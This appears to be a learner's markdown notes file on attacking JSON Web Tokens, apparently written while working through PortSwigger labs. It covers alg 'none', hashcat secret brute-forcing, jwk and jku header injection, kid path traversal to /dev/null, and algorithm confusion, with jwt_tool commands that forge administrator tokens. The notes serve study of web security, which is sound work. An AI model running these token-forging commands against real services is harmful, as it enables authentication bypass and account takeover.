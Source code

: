 # JWT : JSON WEB Token

standardized format for sending cryptographically signed JSON data between systems.
A JWT consists of 3 parts: a header, a payload, and a signature. These are each separated by a dot, as shown in the following example.

    eyJraWQiOiI5MTM2ZGRiMy1jYjBhLTRhMTktYTA3ZS1lYWRmNWE0NGM4YjUiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTY0ODAzNzE2NCwibmFtZSI6IkNhcmxvcyBNb250b3lhIiwic3ViIjoiY2FybG9zIiwicm9sZSI6ImJsb2dfYXV0aG9yIiwiZW1haWwiOiJjYXJsb3NAY2FybG9zLW1vbnRveWEubmV0IiwiaWF0IjoxNTE2MjM5MDIyfQ.SYZBPIBg2CRjXAJ8vCER0LA_ENjII1JakvNQoP-Hw6GG1zfl4JyngsZReIfqRvIAEi5L4HV0q7_9qGhQZvy9ZdxEJbwTxRs_6Lb-fZTDpW6lKYNdMyjw45_alSCZ1fypsMWz_2mTpQzil0lOtps5Ei_z7mM7M8gCwe_AGpI53JxduQOaB5HkT5gVrv9cKu9CsW5MS6ZbqYXpGyOG5ehoxqm8DL5tFYaW3lB50ELxi0KsuTKEbD0t5BCl0aCR2MBJWAbN-xeLwEenaqBiwPVvKixYleeDQiBEIylFdNNIMviKRgXiYuAvMziVPbwSgkZVHeEdF5MQP1Oe2Spac-6IfA

The header and payload parts of a JWT are just base64url-encoded JSON objects. The header contains metadata about the token itself, while the payload contains the actual "claims" about the user. For example, you can decode the payload from the token above to reveal the following claims:

    {
        "iss": "portswigger",
        "exp": 1648037164,
        "name": "Carlos Montoya",
        "sub": "carlos",
        "role": "blog_author",
        "email": "carlos@carlos-montoya.net",
        "iat": 1516239022
    }

# JWT auth bypass via flawed signature verification

Example, 

    {
        kid":"3601f8c8-61c2-403b-8f0f-6889d4853ffb",
        "alg":"none"
    }
change alg to none, and delete signature in the JWT

# Brute-force jwt to find password 

    hashcat -a 0 -m 16500 <jwt> <wordlist>

# Header injections 

According to specifications of JWT only `alg` header is mandatory, there are other headers that are used in JWT and attracts hackers. 
    
    jwk (json web key)
    jwu (json web url)
    kid  Provides an ID that servers can use to identify 

## Injecting self-signed JWTs via the jwk parameter
A JWK (JSON Web Key) is a standardized format for representing keys as a JSON object.
Example :

    {
        "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
        "typ": "JWT",
        "alg": "RS256",
        "jwk": {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
            "n": "yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9m"
        }
    }

when it's like this, we generate out own RSA key pairs, and sign the JWT outselves.
using jwt_tools
take the token into jwt_tools.py

    python3 jwt_tool.py <JWT token> -X i -T

and then change the paramateres for the attack 
PS : watchout the KID needs to be the same in both fields

// to create own script helpful link 
https://ktor.io/docs/rsa-keys-generation.html#populating-the-jwks-json-file

## Injecting self-signed JWTs via the jku parameter

didn't understand how it works, but those are the main steps :

run the command 

    python3 jwt_tool <jwt> -X s -ju <url> -T

the script will generate a config that the url which is our server needs to return 
example :

    {
        "keys":[
            {
                "kty":"RSA",
                "kid":"jwt_tool",
                "use":"sig",
                "e":"AQAB",
                "n":"wnfych1Rg1lGvds211TCWv0t6lpxMJ4JQjqpihOETIozqGwz1tyJNSHXOUXD9Rj6xLPH0DjP8dI8_qvwRqE-EaLldSoGPjPuDEsKqNbcd4acCqnAmAlfj3c7LTvV42kMDZLD9olnVj5dUXEKnGYrSr1_BiQhGG4lqIoTaCTVBam1yI-Jnn-y63XH8sRb6BxR2Kj2FdMUqIwYpaSUokGQZSVhO6fK787yPrkTVqYlWkgn691BW5T_njdIZi6IpnhU1OeF4Z-DQYGFyzcsmxOfZMtLG1XXqiteRIHBs-4-orCKizUfN8QcJs2_fs9wFImhF3YQklVYlzU2LbOw3Kou9w"
            }
        ]
    }
So the URL need to be a server that return this respone with application/json in content-type, and then we can use the forged token to connect. 

## JWT authentication bypass via kid header path traversal

Some time the server to verify the value, it looks in a file using kid, the key for this attack, is to change the fil to ../../../../../dev/null and change the claims to do that with jwt_tool

    jwt_tool <jwt_token> -I -hc kid -hv '../../../../dev/null' -pc sub -pv 'administrator' -S hs256 -p ''  # for empty password

## algorithm confusion attack

algorithm confusion attack exists in a flow of the verify method, many libraries provide this function of verification. 

    function verify(token, secretOrPublicKey){
        algorithm = token.getAlgHeader();
        if(algorithm == "RS256"){
            // Use the provided key as an RSA public key
        } else if (algorithm == "HS256"){
            // Use the provided key as an HMAC secret key
        }
    }

Problems arise when website developers who subsequently use this method assume that it will exclusively handle JWTs signed using an asymmetric algorithm like RS256. Due to this flawed assumption, they may always pass a fixed public key to the method as follows:

    publicKey = <public-key-of-server>;
    token = request.getCookie("session");
    verify(token, publicKey);

In this case, if the server receives a token signed using a symmetric algorithm like HS256, the library's generic verify() method will treat the public key as an HMAC secret. This means that an attacker could sign the token using HS256 and the public key, and the server will use the same public key to verify the signature.

so to perform the attack we need : 

1. Obtain the server's public key
2. Convert the public key to a suitable format
3. Create a malicious JWT with a modified payload and the alg header set to HS256.
4. Sign the token with HS256, using the public key as the secret.

and to find the public key used, the standards recommand to use these endpoints :  `/jwks.json` or `/.well-known/jwks.json`

using jwt_tool the command will be the following 

    jwt_tool <jwt_token> -X k -pk <public_key.pem> -I -pc  sub  -pv administrator

to generate the pem file, install jwt editor in burp
then go to generate new RSA key , and copy the jsonfile file found in `/jwks.json` example : 

    {"kty":"RSA","e":"AQAB","use":"sig","kid":"4b87d66e-6cfa-41ab-b677-f4afd2a123dd","alg":"RS256","n":"k84FbNQguvNDChkDeyajY3jG9qWuSPPmpWwr92Q2hz8x9sHWHpWF_XTHlmKV4s7qD0i2Z-7W6Nkv7INnH1GlUiRWnEPTmcqfPJkbLRK9R4gB37OIVJFtouDyzGEdF36XJPy9tv6mM3iORs5KFBuP5py5DDX8GKotgJfKJV9uNE2z47gkIzgf_u-HcGCIABnFEUJ9ipqoL6XRbBaxfqD9q7fIsFNryyZrjInOXbnXSNnk0bOcxnrVtQRZ3DHkQyewBsP0KpnkfEErt_u38PP_Sek0EYdYi_aKNTmiuCRqLVYLRHfx0oJnztMarOaTvubWlM__POCrEJZi9qzGVhYQWQ"}

then export it into pem file ( need to find other methods to do it )

## Deriving public keys from existing tokens

seen the soutlion, it needs a docker file but i didn't understand how it did work :/  and i don't want to install docker and use a VM without understand it so skip it
